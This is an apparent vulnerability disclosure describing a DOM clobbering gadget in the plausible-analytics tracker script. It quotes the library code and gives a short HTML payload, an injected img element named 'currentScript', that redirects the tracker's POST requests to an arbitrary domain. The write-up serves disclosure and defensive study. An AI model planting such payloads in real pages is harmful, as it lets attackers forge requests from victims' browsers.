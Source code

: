 ## plausible-analytics

### Meta

+ Library: plausible-analytics
+ Stars: 19.7K
+ Version: v2.1.0
+ Fingerprint: `window.plausible !== undefined`
+ Payload: ```<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">```
+ Impact: CSRF
+ CVE: N/A
+ Status: Reported
+ Security Policy: Email
+ Foundby: TheHulk

### Library

https://github.com/plausible/analytics

### Vulnerable Code Snippet

```javascript
    var a = window.location
      , r = window.document
      , o = r.currentScript
      , l = o.getAttribute("data-api") || new URL(o.src).origin + "/api/event";
    function s(t, e) {
        t && console.warn("Ignoring Event: " + t),
        e && e.callback && e.callback()
    }
    function t(t, e) {
        if (/^localhost$|^127(\.[0-9]+){0,2}\.[0-9]+$|^\[::1?\]$/.test(a.hostname) || "file:" === a.protocol)
            return s("localhost", e);
        if ((window._phantom || window.__nightmare || window.navigator.webdriver || window.Cypress) && !window.__plausible)
            return s(null, e);
        try {
            if ("true" === window.localStorage.plausible_ignore)
                return s("localStorage flag", e)
        } catch (t) {}
        var i = {}
          , n = (i.n = t,
        i.u = a.href,
        i.d = o.getAttribute("data-domain"),
        i.r = r.referrer || null,
        e && e.meta && (i.m = JSON.stringify(e.meta)),
        e && e.props && (i.p = e.props),
        new XMLHttpRequest);
        n.open("POST", l, !0),
        n.setRequestHeader("Content-Type", "text/plain"),
        n.send(JSON.stringify(i)),
        n.onreadystatechange = function() {
            4 === n.readyState && e && e.callback && e.callback({
                status: n.status
            })
        }
    }
```

## PoC

```html
<!--Library-->
<script defer data-domain="mydomain.com" src="https://plausible.io/js/script.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">
<!--Payload-->
```

The gadgets helps attacker to send arbitrary post request to arbitrary domain on the vicitim's browser. 